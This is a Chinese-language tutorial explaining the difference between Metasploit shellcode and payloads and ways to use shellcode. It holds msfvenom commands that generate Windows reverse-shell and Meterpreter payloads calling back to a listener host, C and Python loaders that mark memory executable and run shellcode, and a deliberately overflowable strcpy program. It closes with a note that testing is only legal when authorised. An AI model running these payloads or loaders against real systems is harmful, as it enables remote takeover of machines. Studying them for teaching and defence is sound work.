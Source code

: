 Metasploit中的Shellcode和Payload是两个密切相关但有区别的概念。

### Shellcode
**Shellcode**通常指的是一段特定的机器码，它被设计用于直接在目标系统的内存中执行。这些代码通常是由攻击者手动编写或自动生成的，用于在目标系统上执行特定的操作。最常见的操作是打开一个命令行Shell，因此得名“Shellcode”。Shellcode一般是很小的，并且需要尽可能短，以便能够注入到目标进程的内存中。

### Payload
**Payload**在Metasploit中的概念更广泛。Payload是攻击者在目标系统上希望执行的代码，可以包含Shellcode，但也可以包含更复杂的操作。Payload可以分为以下几种类型：

1. **Singles**：独立的Payload，可以自包含并执行单一的功能。例如，打开一个Shell或添加一个用户。
2. **Stagers**：小型的初始Payload，用于设置网络连接并加载更大的Stage Payload。Stagers用于解决网络传输和大小限制问题。
3. **Stages**：较大的Payload，它们被Stager加载并执行。Stages可以包含复杂的功能，如Meterpreter或VNC会话。

### Shellcode与Payload的关系
在Metasploit中，Shellcode可以看作是Payload的一部分，尤其是在单独的Shellcode形式下。更广泛地说，Payload可以包含Shellcode，并通过各种技术（如编码、混淆和分段传输）来传递和执行它。

### 示例
#### 使用Msfvenom生成Shellcode
Msfvenom可以用来生成特定的Shellcode。以下示例生成一个Windows的反向TCP Shellcode：

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
```

#### 使用Metasploit生成Payload
Msfvenom也可以生成更复杂的Payload，例如Windows的Meterpreter反向TCP Payload：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe -o payload.exe
```

### 总结
- **Shellcode**：通常是指一小段直接执行的机器码，用于特定目的（如打开Shell）。
- **Payload**：更广泛的概念，可以包含Shellcode，还可以包含其他更复杂的代码和功能。

在实际使用中，Metasploit中的Payload通常会包含并使用Shellcode来实现具体的攻击和渗透目的。



Shellcode通常用于渗透测试和漏洞利用，它可以直接嵌入到程序中或通过各种技术注入到目标进程的内存中以执行特定操作。下面是一些使用Shellcode的方法及其在编程中的具体应用。

### 1. 嵌入到C/C++程序中

将Shellcode嵌入到C/C++程序中是一种常见的使用方法。以下是一个简单的示例，演示如何在C程序中执行Shellcode：

```c
#include <stdio.h>
#include <string.h>

// Shellcode，以NOPSLED开头
unsigned char shellcode[] = 
"\x90\x90\x90\x90"  // NOP指令，用于填充和对齐
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf2\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32"
"\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5";

int main() {
    // 创建一个函数指针，指向Shellcode
    void (*func)();
    func = (void (*)())shellcode;
    
    // 取消对Shellcode的写保护，使其可执行
    // 使用时需要注意权限问题，以下方法适用于Linux
    // #include <sys/mman.h>
    // mprotect((void *)((uintptr_t)shellcode & ~0xFFF), 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
    
    // 执行Shellcode
    func();

    return 0;
}
```

### 2. 在漏洞利用中使用Shellcode

在漏洞利用中，攻击者通常会通过缓冲区溢出、格式化字符串漏洞等方式，将Shellcode注入到目标进程的内存中，然后劫持程序的执行流跳转到Shellcode位置执行。以下是一个简单的概念示例，展示如何利用缓冲区溢出执行Shellcode：

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[256];
    // 漏洞：未检查输入长度，导致缓冲区溢出
    strcpy(buffer, input);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("Usage: %s <payload>\n", argv[0]);
        return 1;
    }
    
    vulnerable_function(argv[1]);

    return 0;
}
```

在实际攻击中，攻击者可能会构造一个精心设计的输入，包含有效的Shellcode和覆盖返回地址的地址，以便执行Shellcode。

### 3. 使用Msfvenom生成Shellcode

Msfvenom可以生成不同格式的Shellcode，用于各种编程语言和平台。以下是生成C语言格式Shellcode的命令示例：

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f c
```

生成的输出类似于：

```c
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
...
"\xff\xd5";
```

### 4. 在Python中使用Shellcode

在Python脚本中执行Shellcode需要使用`ctypes`库。以下是一个示例：

```python
import ctypes

# Shellcode
shellcode = (
    b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
    b"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    ...
    b"\xff\xd5"
)

# 分配内存并将Shellcode复制到内存中
shellcode_buffer = ctypes.create_string_buffer(shellcode, len(shellcode))

# 将内存页属性设置为可执行
ctypes.windll.kernel32.VirtualProtect(
    ctypes.byref(shellcode_buffer),
    len(shellcode),
    0x40,  # PAGE_EXECUTE_READWRITE
    ctypes.byref(ctypes.c_ulong())
)

# 创建一个函数指针，指向Shellcode
shellcode_func = ctypes.cast(shellcode_buffer, ctypes.CFUNCTYPE(None))

# 执行Shellcode
shellcode_func()
```

### 总结

Shellcode的使用主要分为以下几种场景：
1. **嵌入到C/C++程序中**：直接在程序中执行。
2. **漏洞利用**：通过漏洞将Shellcode注入到目标进程中并执行。
3. **Msfvenom生成Shellcode**：为不同编程语言生成适当格式的Shellcode。
4. **在Python等脚本语言中使用**：通过适当的库来执行Shellcode。

每种方法都有其特定的使用场景和技术细节，使用时需根据实际情况选择合适的方法。请注意，执行和测试Shellcode应在合法授权的环境下进行，未经授权的操作是违法的。